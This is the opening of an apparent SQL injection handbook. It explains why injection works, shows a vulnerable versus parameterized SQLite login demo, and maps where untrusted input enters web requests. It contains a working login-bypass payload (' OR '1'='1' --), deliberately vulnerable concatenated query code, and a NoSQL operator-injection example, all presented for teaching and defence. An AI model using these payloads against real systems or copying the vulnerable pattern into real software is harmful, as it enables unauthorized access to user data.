# SQL Injection Hanbook

## Foundations: How Relational Databases Think, and Why That Makes Injection Possible

### Why I'm Writing This Book

I've spent a long time going down the SQL injection rabbit hole — not because I wanted a shelf of payloads, but because I kept running into the same frustration from every angle I approached it. As a developer, the advice I found was usually one paragraph long: "use parameterized queries," full stop, no explanation of *why* that one change closes the door so completely. As someone trying to read up on bug bounty methodology, most guides jumped straight to a giant list of strings to paste into a form field, with no framework for understanding *why* a given payload worked or what it told you about the backend. As someone trying to think like a blue teamer, I found almost nothing that connected "here's what an attacker's request looks like on the wire" to "here's what your logging and detection pipeline should actually be watching for."

So this book is the version of that research I wish I'd had on day one. I'm writing it in first person deliberately, because it's not a spec sheet — it's me walking you through what I found, what surprised me, what I tested myself, and where I think the standard explanations gloss over details that actually matter.

A note on scope before we go further, because I think it's important to be upfront about it: this book stays at the level of understanding, recognizing, confirming, and defending against SQL injection. It does not function as a payload arsenal, a WAF-bypass encyclopedia, or an operational playbook for turning a confirmed injection point into remote code execution, web shells, or persistence. That's a deliberate choice, not an oversight. A developer, a blue teamer, a bug bounty hunter reporting a legitimate finding, and a red teamer operating under a signed scope all need the same underlying knowledge — how the vulnerability class works, how to prove it exists, and how to close it. None of them need a book that hands them an escalation chain. If you're looking for that, this isn't it, and I'd gently push back on the idea that you need it: the professional path from "I found a SQLi" to "I have proven impact" almost never requires more than demonstrating that you can read data you shouldn't be able to read — which is exactly what Part II of this book teaches you to do, safely and reportably.

With that said — let's build the actual foundation.


### 1.1 What This Book Is Structured Around

I organized this as a five-part book, because I found that SQL injection material usually collapses two very different skills into one pile: *finding* the bug and *fixing* the bug. I wanted to keep them separate but connected, because a developer who understands the finding side writes better defenses, and a tester who understands the fixing side writes better reports.

Here's the map I'm using for the rest of the book:

| Part | Focus | Primary audience | Chapters |
|---|---|---|---|
| I | Foundations — the relational model, the attack surface, the taxonomy | Everyone | 1–3 |
| II | Finding and confirming injection responsibly | Bug bounty hunters, pentesters, red teamers | 4–8 |
| III | Defending — code, database, network, process | Developers, blue teamers, DBAs | 9–15 |

**Note:** Each chapter in this book is written to stand on its own at real depth — long enough to be a genuine reference for its topic, not a shallow summary. You can read straight through, or jump directly to whichever chapter addresses what you need right now.


### 1.2 The Relational Model in One Page

To understand *why* injection is possible, you have to understand what a relational database actually thinks it's doing when it runs a query. This isn't academic throat-clearing — the vulnerability only makes sense once you see it.

#### Relations, Tuples, and Attributes

A relational database, at its mathematical core, doesn't store "tables" — it stores **relations**. A relation is a set of **tuples** (rows), where each tuple is an ordered collection of values, and each position in that tuple corresponds to an **attribute** (column) with a defined domain (type).

When I write:

```sql
SELECT * FROM users WHERE username = 'alice';
```

I'm not really writing a sentence in English. I'm writing a shorthand for an operation from **relational algebra** — a formal, mathematical system that predates SQL by a decade. Edgar F. Codd defined this in 1970, and SQL is, underneath its English-like syntax, a fairly direct implementation of it.

#### The Two Operations That Matter Most Here

The two operations that matter most for understanding injection are **selection** and **projection**.

Selection filters *rows* based on a predicate:

$$
\sigma_{p}(R) = \{\, t \mid t \in R \land p(t) \,\}
$$

This says: "give me every tuple $t$ in relation $R$ such that predicate $p$ evaluates true for that tuple." In SQL, this is your `WHERE` clause.

Projection filters *columns*:

$$
\pi_{A_1, \dots, A_n}(R) = \{\, t[A_1, \dots, A_n] \mid t \in R \,\}
$$

This is your `SELECT column_list` part.

So `SELECT username FROM users WHERE username = 'alice'` is, formally:

$$
\pi_{\text{username}}\big(\sigma_{\text{username = 'alice'}}(\text{users})\big)
$$

**Here's the detail that the whole rest of this book hangs on:** the predicate $p$ in $\sigma_p(R)$ is supposed to be a *fixed logical expression* — the database engine compiles it into an execution plan once, treats it as code, and then substitutes in *values*. When everything works correctly, `'alice'` is a **value** being tested against the predicate `username = ?`. It is not part of the predicate itself.

SQL injection is what happens when that boundary — value versus predicate — collapses. The user-supplied string stops being data plugged into $p$ and starts being *part of* $p$ itself. I'll come back to this framing constantly, because once you see it this way, every injection technique in this book — union-based, blind, time-based, second-order — is just a different method of the same underlying trick: getting the database to treat your data as code.


### 1.3 How a SQL Query Becomes a String (and Why That's the Crime Scene)

Here's the part that I think most tutorials skip past too quickly. A web application doesn't send relational algebra to a database. It sends **text**. Somewhere in the application's code, a function builds a string, and that string is handed to the database driver, which parses it, plans it, and executes it.

The vulnerability is entirely about *how that string gets built*.



That diagram is, honestly, the entire book in one picture. Everything from here on is elaboration.

#### The String-Building Moment

Concretely, in a vulnerable application, somewhere there's a line that looks like this (I'm using Python here, but this pattern is language-agnostic — I'll show the equivalent in half a dozen languages in Chapter 9):

```python
query = "SELECT * FROM users WHERE username = '" + username + "'"
cursor.execute(query)
```

At the moment `+` runs, `username` — whatever the client sent — becomes indistinguishable, character for character, from SQL syntax written by the developer. The database has no way to know that the developer intended `username` to be a value and not, say, a closing quote followed by a new clause. By the time the string reaches the driver, that intent is gone. All the driver sees is text.

Compare that to the parameterized version:

```python
query = "SELECT * FROM users WHERE username = ?"
cursor.execute(query, (username,))
```

Here, the database driver receives *two separate things*: a fixed SQL template (which it parses and compiles exactly once, treating `?` as a typed placeholder), and a value, sent through a completely separate channel, which gets bound into that placeholder *after* parsing is complete. The value can contain a quote character, a semicolon, the word `UNION`, anything — it will never be re-parsed as SQL syntax, because parsing already happened before the value ever arrived.

This is the single most important sentence in this book, so I want to state it as plainly as I can:

> **Parameterization doesn't "sanitize" your input. It changes which channel your input travels through — from the code channel to the data channel — so that the database's parser never sees it as anything other than a value.**

That distinction — sanitize vs. separate channels — trips a lot of people up, including me for a while. "Sanitizing" implies you're cleaning something dangerous. Parameterization doesn't clean anything. It structurally prevents the danger from being possible in the first place, because the dangerous thing (user input being interpreted as SQL grammar) simply cannot occur.


### 1.4 A Minimal, Tested Example

I don't want to just assert this — I want to show it to you, because I think watching the actual bytes move is more convincing than any explanation. I built a tiny in-memory SQLite database with three users, one of them an admin, and wrote both a vulnerable login function and a parameterized one. Everything below is real output from actually running this code — I'm not reconstructing or paraphrasing a hypothetical.

#### The Setup

```python
import sqlite3

conn = sqlite3.connect(":memory:")
cur = conn.cursor()
cur.execute("""
    CREATE TABLE users (
        id INTEGER PRIMARY KEY,
        username TEXT,
        password TEXT,
        is_admin INTEGER
    )
""")
cur.executemany(
    "INSERT INTO users (username, password, is_admin) VALUES (?, ?, ?)",
    [
        ("alice", "hunter2", 0),
        ("bob", "correcthorse", 0),
        ("admin", "S3cretRootPW", 1),
    ],
)
conn.commit()

def vulnerable_login(username, password):
    query = ("SELECT id, username, is_admin FROM users "
             "WHERE username = '" + username + "' AND password = '" + password + "'")
    print("  SQL sent to engine:", query)
    cur.execute(query)
    return cur.fetchall()

def safe_login(username, password):
    query = "SELECT id, username, is_admin FROM users WHERE username = ? AND password = ?"
    cur.execute(query, (username, password))
    return cur.fetchall()
```

#### Test Run 1 — Legitimate Use

```
>>> vulnerable_login("alice", "hunter2")
  SQL sent to engine: SELECT id, username, is_admin FROM users WHERE username = 'alice' AND password = 'hunter2'
[(1, 'alice', 0)]
```

Exactly as expected — a normal login returns one row.

#### Test Run 2 — A Naive Payload That *Doesn't* Work (and why)

Nearly every tutorial I read presents `' OR '1'='1` as an unconditional login bypass. I wanted to actually test that claim rather than repeat it, and it's more subtle than advertised:

```
>>> vulnerable_login("' OR '1'='1", "anything")
  SQL sent to engine: SELECT id, username, is_admin FROM users WHERE username = '' OR '1'='1' AND password = 'anything'
[]
```

Zero rows. Why? **Operator precedence.** SQL's `AND` binds more tightly than `OR`, so this predicate is actually evaluated as:

$$
\big(\text{username} = \text{''}\big) \lor \big(\text{'1'='1'} \land \text{password} = \text{'anything'}\big)
$$

The right side of the `OR` still requires `password = 'anything'` to be true for some row, and no stored password equals the literal string `"anything"` — so the whole predicate is false for every row. This is a genuinely useful, under-taught lesson: **payload folklore gets copy-pasted without anyone verifying operator precedence against the actual query shape.** The classic payload only works when it's the *last* condition, or when it neutralizes what comes after it.

#### Test Run 3 — The Payload That Actually Works, and Why

The fix an attacker (or, in our case, a tester confirming the bug) actually uses is to comment out everything that follows, rather than trying to out-logic it:

```
>>> vulnerable_login("' OR '1'='1' -- ", "irrelevant")
  SQL sent to engine: SELECT id, username, is_admin FROM users WHERE username = '' OR '1'='1' -- ' AND password = 'irrelevant'
[(1, 'alice', 0), (2, 'bob', 0), (3, 'admin', 1)]
```

All three users, including the admin row, come back — and the trailing `password = 'irrelevant'` clause never even gets evaluated, because `--` tells the SQL parser "everything after this point on the line is a comment, ignore it." This is a clean, minimal demonstration of Section 1.3's diagram: the database parsed attacker-supplied text as *grammar* (a comment token), not as *data*.

#### Test Run 4 — The Same Payload Against the Parameterized Version

```
>>> safe_login("' OR '1'='1' -- ", "irrelevant")
[]
```

Empty result — correctly. The parameterized version bound the entire string `"' OR '1'='1' -- "` as a single literal value for the `username` column and searched for a user with that exact (nonsensical) username. None exists, so it correctly returns nothing.

```
>>> cur.execute("SELECT username FROM users"); cur.fetchall()
[('alice',), ('bob',), ('admin',)]
```

The table is untouched — the payload never had a chance to be interpreted as anything other than a string.

**Caution:** I ran this against a disposable, in-memory SQLite database that I created specifically for this demonstration, with no real users, no network exposure, and nothing else on the machine touching it. If you want to reproduce this yourself, do exactly that — spin up a local, throwaway database. Chapter 15 walks through setting up a proper legal practice lab (DVWA / bWAPP) rather than testing against anything you don't own or have explicit written authorization to test.


### 1.5 Why This Keeps Happening

Given how mechanically simple the fix is — use parameterized queries — I spent a while trying to understand why SQL injection has remained on the OWASP Top 10 in some form for over two decades. A few root causes kept surfacing in my research, and I think they're worth naming explicitly rather than just repeating "developers should know better."

#### 1.5.1 String Building Feels Natural

String concatenation is often the *first* way a new programmer learns to build a query, because it reads like natural language and doesn't require learning a driver's parameter-binding API. The unsafe path is frequently the path of least resistance, especially for anyone who learned SQL from a tutorial that itself used concatenation for simplicity (I found several official-looking tutorials still doing this, which doesn't help).

#### 1.5.2 Dynamic Requirements Push People Toward String Building

Some genuinely dynamic needs — sortable columns (`ORDER BY <column>`), dynamic table names in multi-tenant systems, optional filters — don't map cleanly onto parameterized placeholders, because **you can only parameterize values, never SQL structure** (table names, column names, `ORDER BY`/`ASC`/`DESC` keywords). A placeholder can stand in for `'alice'`, but it cannot stand in for the identifier `username` or the keyword `DESC`. This is a real, legitimate gap — and it's exactly why Part III of this book spends real time on **whitelist validation for structural elements**, which is the correct pattern for exactly this situation.

#### 1.5.3 Frameworks and ORMs Create False Confidence

I found a lot of developers who correctly avoid raw string concatenation for their everyday queries — because their ORM handles that — but who then drop into a "raw query" or "extra" escape hatch for one complex report, and re-introduce the exact same bug, believing the ORM's general safety extends to that escape hatch too. It doesn't. I cover this specifically in Chapter 10, with real examples from Django, SQLAlchemy, and a couple of Node.js ORMs.

#### 1.5.4 The Bug Is Invisible Until It Isn't

A vulnerable query and a safe query can behave *identically* for every normal input a QA process is likely to try. `alice`, `bob@example.com`, `2024-01-01` — none of these contain a quote character, so the bug produces zero visible symptoms during ordinary functional testing. It only reveals itself to someone deliberately trying adversarial input, which is precisely why dedicated security testing (Part II of this book) exists as a discipline separate from functional QA.


### 1.6 The Cost When It Goes Wrong

I want to ground this in real-world weight without turning this section into an operational case study. A few incidents are extensively documented in public reporting, regulatory findings, and court records, and I think it's worth knowing the shape of them — not the technical payload chain, just the lesson.

| Incident (publicly reported) | What's publicly documented | The lesson I take from it |
|---|---|---|
| Heartland Payment Systems, disclosed 2009 | One of the largest card-data breaches at the time; U.S. federal prosecutors' filings against the perpetrators described SQL injection as an entry vector into payment-processing systems. | A single unvalidated input field, in a system handling enormous transaction volume, was enough to compromise the whole environment. |
| TalkTalk (UK telecom), 2015 | The UK Information Commissioner's Office investigated and issued a substantial fine, publicly attributing the breach to a SQL injection vulnerability in a legacy web page the company had inherited through acquisition and not properly decommissioned. | Legacy, forgotten, "nobody uses that page anymore" systems are disproportionately where these bugs survive. |
| Multiple mid-2010s "hacktivist" dumps (various targets) | Several publicized breaches from that era were attributed by the actors themselves, and later by investigators, to basic SQL injection against public-facing forms. | This is not an exotic, nation-state-only technique — it has repeatedly been the *first* thing low-sophistication attackers try, because it has repeatedly worked. |

**Note:** I'm deliberately not walking through *how* those specific breaches were technically executed — that detail isn't published by the responsible parties for good reason, and reconstructing it isn't useful for this book's purpose. What's useful is the pattern: overwhelmingly, these are not exotic bypasses of hardened systems. They are the exact same "string concatenation instead of a placeholder" bug from Section 1.4, sitting in production, undiscovered, sometimes for years.


### 1.7 A Preview of the Defense-in-Depth Model

I'll build this out fully in Part III, but I want to plant the flag early, because I think knowing the destination makes the journey through Parts I and II more useful.



Every one of the incidents in Section 1.6 involved at least two, and usually three or more, of these layers being absent simultaneously. That's not a coincidence — it's the actual argument *for* defense in depth: no single layer is perfect, but the layers are close to statistically independent, and an attacker who has to defeat all five in the same request is in a fundamentally different position than one who only has to defeat one.


### 1.8 How the Rest of This Book Is Organized

Here's the full roadmap, chapter by chapter, so you can jump to what's relevant to your role — though I'd genuinely encourage reading Part I in full regardless of your role, because Parts II and III both assume it.

#### Part I — Foundations
- **Chapter 1** (this chapter) — the relational model, the code/data boundary, a tested minimal example.
- **Chapter 2** — Where untrusted input actually enters an application: the full inventory of parameter types (query strings, JSON bodies, headers, cookies, GraphQL arguments, WebSocket messages) and why "I sanitized the form field" is usually an incomplete defense.
- **Chapter 3** — A proper taxonomy: in-band (error-based, union-based), blind (boolean, time-based), and out-of-band injection, explained by *mechanism*, not by payload list.

#### Part II — Finding and Confirming, Responsibly
- **Chapter 4** — How to recognize a candidate injection point during authorized testing, and how to do the very first, least-destructive check correctly.
- **Chapter 5** — Confirming boolean- and error-based injection without causing damage.
- **Chapter 6** — Confirming blind and time-based injection, and understanding the statistical pitfalls (network jitter, false positives) that make testers over-claim.
- **Chapter 7** — What `information_schema` (and its equivalents across MySQL, PostgreSQL, MSSQL, Oracle, SQLite) actually is, conceptually, and why demonstrating *read access to one out-of-scope row* is sufficient proof of impact — you almost never need more than that for a legitimate report.
- **Chapter 8** — Writing a finding up like a professional: reproducible steps, impact statement, remediation guidance, and how bug bounty triage teams actually evaluate SQLi reports.

#### Part III — Defending
- **Chapter 9** — Parameterized queries, driver by driver, across Python, PHP, Java, Node.js, Ruby, and Go — with real, runnable examples for each.
- **Chapter 10** — ORMs and query builders: where they help, and the specific escape hatches (`.raw()`, `.extra()`, string-built `Q` objects, and their equivalents) that silently reintroduce the bug.
- **Chapter 11** — Whitelist vs. blacklist input validation, built out in real code, for exactly the structural cases (sort columns, dynamic table names) that parameterization can't cover.
- **Chapter 12** — Database hardening: least privilege, schema-level permission boundaries, and why your application's DB user should never be able to run `DROP TABLE` even if your application code has a bug.
- **Chapter 13** — WAFs and detection engineering: what a SIEM rule for SQLi actually looks like, and why relying on a WAF as your *only* layer is a mistake I can show you the failure mode for.
- **Chapter 14** — Incident response: the concrete first-24-hours checklist if you suspect a SQLi breach has already happened.
- **Chapter 15** — Building a legal, isolated practice lab (DVWA, bWAPP) so you can apply everything in Part II against something you're actually allowed to attack, plus a secure code review checklist you can use in real PR reviews.


### 1.9 Chapter Summary

- SQL injection exists because SQL queries are ultimately transmitted as **text**, and a vulnerable application builds that text by directly splicing in user-controlled data.
- The formal way to think about it: a safe query's predicate $\sigma_p(R)$ has a **fixed** $p$, with user input bound in afterward as an atomic value. An injectable query lets user input become *part of* $p$ itself.
- Parameterized queries fix this **structurally**, not by cleaning dangerous characters — they send the SQL template and the values over separate channels, so the parser never re-interprets a value as grammar.
- I verified this with a real, runnable SQLite demo: the naive `' OR '1'='1` payload actually *failed* against a two-field login due to operator precedence, while the comment-terminated `' OR '1'='1' --` payload succeeded, returning all three users including the admin account — and the identical payload against the parameterized version correctly returned nothing.
- This class of bug persists because string concatenation is often the "obvious" way to write a query, because some genuinely dynamic needs (structural elements like column names) can't be parameterized, and because ORM escape hatches quietly reintroduce it.
- No single defensive layer is sufficient on its own — parameterization, whitelist validation, least privilege, detection, and process all need to be present together.

### 1.10 A Note Before You Continue

**Caution:** Every technique described from Chapter 4 onward assumes you are testing an application you own, or one you have explicit written authorization to test (a bug bounty program's published scope counts; a friend's side project does not, unless they've said so in writing). Section 1.4's demo used a disposable, local, in-memory database for exactly this reason — reproduce it the same way.

In the next chapter, I'm going to walk through the full inventory of *where* untrusted input actually enters a modern application — because I found that most people's mental model stops at "the search box," and that gap is exactly where a lot of real, exploitable findings hide.

## The Attack Surface: Where Untrusted Input Actually Enters a Query

### Why I Went Looking Beyond the Search Box

When I started cataloguing where SQL injection actually shows up in real assessments and real bug bounty writeups, I noticed my own mental model was embarrassingly narrow. I was thinking "search box" and "login form" — the two places every tutorial demonstrates it. But the more reports and the more application code I read, the more I realized the search box is just the *most visible* entry point, not the most *common* one, and definitely not the most dangerous one on average.

A `username` field gets fuzzed by every automated scanner on earth, so it tends to get fixed early. An `X-Forwarded-For` header that a logging function quietly writes into an `INSERT` statement, or a `sort` parameter that a reporting dashboard splices into an `ORDER BY` clause, gets tested by almost nobody — and in my reading of public disclosure writeups, that's disproportionately where real, high-severity findings live. This chapter is my attempt to build the complete map, organized by *where the input travels through the HTTP request*, not by how "obvious" it looks.

I want to be clear about what this chapter is: an inventory of *locations*, so that when you're doing authorized testing (Part II) or threat-modeling your own application (Part III), you're not just checking the fields the UI shows you. It is not a payload list — that comes with mechanism, in Chapter 3.


### 2.1 Why "I Sanitized the Form Fields" Is an Incomplete Sentence

Here's the trap I see developers fall into constantly: they treat "user input" as synonymous with "things rendered as `<input>` elements in the HTML I wrote." But from the server's perspective, *anything the client controls* is user input, whether or not your frontend ever exposes a field for it.



The header sent by every browser on every request, the cookie set six requests ago, the `Content-Type` boundary string in a multipart upload — all of it is attacker-controlled the moment the attacker isn't using a browser at all, but a tool like `curl` or Burp Repeater that lets them send whatever bytes they want, regardless of what your HTML form would have allowed.

**Note:** I'm going to organize this chapter by *where in the request* the input lives, because that's the organizing principle that determines *how* you'd go about testing or defending each one — the tooling and mindset for testing a JSON body field is different from testing a header, even though the underlying vulnerability (if the backend mishandles it) is identical.


### 2.2 URL-Based Parameters

#### 2.2.1 Query String Parameters

```
GET /search?q=laptop&category=electronics&sort=price
```

This is the one everyone tests. Every value after `?`, separated by `&`, is a candidate. What I found less obvious starting out: **a parameter can be reflected nowhere in the visible response and still be exploitable.** A `sort=price` parameter that only affects internal query construction, never echoed back to the page, is exactly the kind of thing that ends up being *blind* SQL injection (Chapter 3, Chapter 6) — invisible to a casual glance at the rendered page.

#### 2.2.2 Path Parameters

```
GET /api/users/123/orders/456
                ^^^          ^^^
```

Values embedded directly in the URL path, not after `?`. Frameworks route these into path variables (`{user_id}`, `{order_id}`) that often get passed straight into a query — `SELECT * FROM orders WHERE user_id = {user_id} AND order_id = {order_id}`. I've seen these get *less* security scrutiny than query parameters in practice, possibly because they "look like" part of the URL structure rather than "user data," even though they're every bit as attacker-controlled.

#### 2.2.3 Fragment Parameters

```
/page#section=intro&tab=overview
```

Everything after `#` is processed client-side only — browsers never send it to the server. I'm including it here mainly to close the loop: it's *not* a server-side SQL injection vector on its own, though it can matter for client-side logic (DOM-based issues) that's a different vulnerability class entirely, outside this book's scope.


### 2.3 Request Body Parameters

#### 2.3.1 Form URL-Encoded Bodies

```
POST /login
Content-Type: application/x-www-form-urlencoded

username=alice&password=secret&_token=abc123
```

The classic HTML form submission. Every `<input>`, `<select>`, and `<textarea>` in a traditional form becomes one of these. This is the format most testing tools default to, which is part of why it's well covered — but see Section 2.5 on hidden fields for the part of this format that gets under-tested.

#### 2.3.2 JSON Body Parameters

```json
POST /api/update
Content-Type: application/json

{
  "username": "alice",
  "role": "user",
  "preferences": {
    "theme": "dark"
  },
  "tags": ["admin-panel", "beta"]
}
```

I want to flag something specific here: a JSON body has **three distinct injectable shapes**, and I've seen testers only cover the first one.

1. **Flat keys** — `username`, `role` — the obvious ones.
2. **Nested object keys** — `preferences.theme` — easy to miss if your testing tooling doesn't automatically walk nested structures.
3. **Array elements** — each string inside `tags` — frequently missed entirely, because most manual testing methodology iterates over top-level keys, not array contents.

If a backend does something like `WHERE tag IN ('admin-panel', 'beta')` by joining array elements into a query string, each array element is its own independent injection point.

#### 2.3.3 XML / SOAP Bodies

```xml
POST /api/soap
<User>
  <id>1</id>
  <name>alice</name>
</User>
```

Every XML tag's text content is effectively a parameter. I'll flag one thing here without going deep on it, because it's a different vulnerability class: XML parsers that aren't configured to disable external entity resolution are separately vulnerable to XXE, which is worth knowing about but isn't this book's subject.

#### 2.3.4 Multipart Form Bodies

```
POST /upload
Content-Type: multipart/form-data; boundary=----X

------X
Content-Disposition: form-data; name="file"; filename="doc.pdf"
Content-Type: application/pdf

[binary data]
------X
Content-Disposition: form-data; name="description"
This is my file
------X
```

Two very different things live in the same request format here: the binary upload itself (its *filename*, in particular, sometimes gets written into a database record — and filenames are entirely attacker-controlled, including quote characters), and ordinary text fields like `description`, which behave exactly like a form field.

**Caution:** I've seen `filename` treated as "just metadata, surely it's safe" more than once. It isn't. Anywhere a filename gets logged, stored, or used to build a query (e.g., an audit table that records `"User uploaded: " + filename`), it's exactly as untrusted as a text field.

#### 2.3.5 GraphQL Arguments

```graphql
query {
  user(id: "123", role: "admin") {
    email
    orders(limit: 10, offset: 0) { total }
  }
}
```

Every argument on every field — at every nesting level — is independently attacker-controlled. A resolver for `orders(limit, offset)` that builds `LIMIT {limit} OFFSET {offset}` as a string is a real, and surprisingly common, injection point, because numeric-looking parameters like `limit` and `offset` get security-reviewed far less often than string parameters like `search`.


### 2.4 Header-Based Parameters

This is the category I most underestimated before I started this research.

#### 2.4.1 Standard HTTP Headers

```
User-Agent: Mozilla/5.0 ...
Referer: https://example.com/page
Accept-Language: en-US,en;q=0.9
```

Any application that logs the `User-Agent` string into a database (extremely common, for analytics) is running attacker-controlled text through a query on *every single request*, whether or not there's a form on the page at all.

#### 2.4.2 Authentication Headers

```
Authorization: Bearer eyJhbGc...
X-API-Key: abc123
```

If an API key or token is looked up with a hand-built query (`SELECT * FROM api_keys WHERE key = '` + header_value + `'`) rather than a parameterized one, this is a direct, pre-authentication injection point — often more severe than a typical form field, because it's usually hit before any other validation logic runs.

#### 2.4.3 Custom Application Headers

```
X-Forwarded-For: 127.0.0.1
X-Real-IP: 10.0.0.1
X-User-ID: 42
X-Forwarded-Host: internal.example.com
```

These deserve their own callout because of a second, compounding problem: many applications don't just fail to sanitize these — they actively **trust** them for access-control decisions (treating `X-Forwarded-For` as "the real client IP" for rate limiting or geo-restriction, or worse, trusting `X-User-ID` outright). When a header is both (a) used in a query and (b) trusted for a security decision, a single injection point can double as an authorization bypass.

#### 2.4.4 Cookie Parameters

```
Cookie: session=abc; user_id=42; role=user; theme=dark
```

Every cookie key is independently attacker-controlled — cookies are just headers the client chooses to keep sending. I've seen applications that store a `role` or `user_id` cookie and trust it directly in a query, which combines an injection vulnerability with a privilege escalation vulnerability in the same bug.


### 2.5 Special-Purpose Parameters

#### 2.5.1 Hidden Form Fields

```html
<input type="hidden" name="price" value="99.99">
<input type="hidden" name="is_admin" value="false">
<input type="hidden" name="_method" value="PUT">
```

"Hidden" only describes the UI — the value is fully present in the submitted request and fully attacker-editable with browser devtools or a proxy. I'm flagging `price` and `is_admin` specifically because they illustrate a pattern worth remembering: a hidden field is frequently a mass-assignment target *first*, and a SQL injection target *second* — the same field can be abused two different ways.

#### 2.5.2 Method-Override Parameters

```
POST /resource/123
_method=DELETE

X-HTTP-Method-Override: DELETE
```

Used by some frameworks to let a POST request behave like a DELETE or PATCH. Not an injection vector by itself, but worth knowing about because it means a "read-only looking" POST endpoint can sometimes trigger a destructive code path that a tester wouldn't otherwise think to check.

#### 2.5.3 Pagination, Sort, and Filter Parameters

```
page=2
limit=50
sort=price
order=DESC
category=electronics
```

I'm grouping these because they share a specific, structural danger: `sort` and `order` values are frequently spliced directly into `ORDER BY`, because — as I covered in Chapter 1 — **you cannot parameterize a column name or the keyword `ASC`/`DESC` with a placeholder.** A parameterized query protects `WHERE category = ?` perfectly, while the very same query's `ORDER BY {sort} {order}` clause, built by concatenation two lines later, remains completely open. This is, in my reading of real disclosure reports, one of the single most common "the developer clearly knew about parameterized queries and used them, but missed this one clause" bugs in the wild.

#### 2.5.4 Redirect and URL-Value Parameters

```
redirect=/dashboard
next=/home
return_to=https://example.com/profile
```

Any parameter whose *value itself is a URL* is high-value for a different reason (open redirect, SSRF), but if that value is ever logged into an audit table via string-built SQL, it's a SQLi vector too — I mention it here mainly so it stays on your checklist even when your primary concern going in was a different bug class.

#### 2.5.5 File and Path Parameters

```
file=report.pdf
template=default
include=header
```

Primarily a path-traversal / local-file-inclusion surface, but the same "logged without parameterization" pattern applies here as everywhere else in this chapter.


### 2.6 Protocol-Specific Parameters

#### 2.6.1 WebSocket Messages

```json
{"action": "subscribe", "channel": "user_42", "token": "abc"}
{"type": "message", "to": "user_1", "body": "hello"}
```

WebSocket traffic is structured JSON (or similar), and every key is a parameter — but in my research I found this surface tested far less often than REST/GraphQL endpoints, likely because standard HTTP-proxy-based testing tools need extra configuration to intercept WebSocket frames at all. If an application has a chat feature, a live-notifications feature, or a real-time dashboard, there's a good chance a whole class of parameters here has simply never been security-reviewed.

#### 2.6.2 gRPC / Protobuf Fields

Each field defined in a `.proto` schema is a parameter, passed as binary-encoded data rather than readable text. The binary encoding doesn't provide any security benefit — it just means testing tools need protobuf definitions to construct valid requests, which raises the bar for casual scanning without changing the underlying risk if a backend later builds a query from an unvalidated field.

#### 2.6.3 NoSQL Operator Parameters

```json
{"username": "alice", "password": {"$gt": ""}}
```

I'm including this even though this book is about *SQL* injection specifically, because the pattern of "structured input containing operator-like keys" recurs constantly in modern full-stack applications that mix a NoSQL user-store with a SQL reporting database, and because the underlying lesson — value vs. structure — is identical. `$gt`, `$where`, and `$regex` acting as injectable operator keys within a JSON body is the exact same "code and data are not actually separated" failure from Chapter 1, just in a document-database dialect.


### 2.7 Building Your Own Parameter Inventory

I found it useful, both for testing and for defensive threat-modeling, to actually write this down for a given application rather than trust memory. Here's the checklist format I settled on:

| Location | Example | Checked? | Reaches a query? | Parameterized? |
|---|---|---|---|---|
| Query string | `?sort=price` | | | |
| Path parameter | `/users/{id}` | | | |
| JSON body — flat key | `{"role": "..."}` | | | |
| JSON body — nested key | `{"prefs": {"theme": "..."}}` | | | |
| JSON body — array element | `{"tags": [...]}` | | | |
| Header — standard | `User-Agent` | | | |
| Header — custom | `X-Forwarded-For` | | | |
| Cookie | `role=user` | | | |
| Hidden form field | `is_admin=false` | | | |
| Multipart filename | uploaded file's name | | | |
| WebSocket message key | `{"channel": "..."}` | | | |

